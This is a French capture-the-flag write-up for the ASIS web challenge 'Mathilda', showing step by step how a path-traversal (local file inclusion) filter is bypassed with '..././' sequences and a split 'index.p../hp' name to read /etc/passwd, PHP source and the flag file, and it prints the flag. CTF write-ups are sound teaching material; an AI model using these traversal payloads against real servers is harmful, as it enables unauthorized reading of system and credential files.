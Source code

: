 # Mathilda - web

## Désignation

    Mathilda learned many skills from Leon, now she want to use them!

## Solution

On se rend sur l'adresse http://178.62.48.181/ ce qui nous donne :

![Mathilda](mathilda.png)

Il s'agit d'une page assez simple, juste du texte et une image.   
On essaie de voir si un indice est caché dans l'image, mais sans succès.  
On en déduit qu'il s'agit peut-être de trouver un répertoire.  
Après plusieurs test non concluants, on relit le code source et on remarque le `<!-- created by ~rooney -->` .  
On tente donc le lien http://178.62.48.181/~rooney :

![~rooney](~rooney.png)

On continue les recherches et on tombe sur http://178.62.48.181/~rooney/files/ puis sur http://178.62.48.181/~rooney/?path=rooney :

![rooney](rooney.png)

L'adresse fait penser à une LFI et on tente http://178.62.48.181/~rooney/?path=../../../../etc/passwd mais sans résultat.  
En modifiant la requète avec Burp, on se rend compte que le path est modifié de tel sorte que `.../.` donne `../` .  
On retest donc la LFI avec le lien suivant :
http://178.62.48.181/~rooney/?path=..././..././..././..././etc/passwd qui nous donne :

    'rooney:x:1000:1000:,,,:/home/rooney:/bin/false'
    'th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash'

On a donc un nouveau chemin : /home/th1sizveryl0ngus3rn4me .   
On retente le chemin avec le nouveau répertoire : http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me mais rien...en ajoutant index.php, non plus ...  
Après quelques recherches sur internet et un peu de chance, on tombe sur le lien suivant :
http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.php qui nous renvoie un beau Security failed !

Le filtre doit donc être actif aussi sur le index.php qu'on modifie en index.p../hp et on obtient :

    <?php
    require 'flag.php';
    if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']),     'mobile')!==false){
    		if(strpos($_SERVER['HTTP_REFERER'],     'th1sizveryl0ngus3rn4me')!==false){
    					echo $flag;
    						}else
    									echo 'Hot-linking is disabled';
    }else
    		echo 'Invalid Device';
    ?>_

Le fichier flag.php semble intéressant et on essaie donc le lien suivant :
http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/flag.p../hp qui nous affiche :

    <?php
    $flag = 'ASIS{I_l0V3_Us3rD1r_Mpdul3!!}';
    ?>

Flag : ASIS{I_l0V3_Us3rD1r_Mpdul3!!}
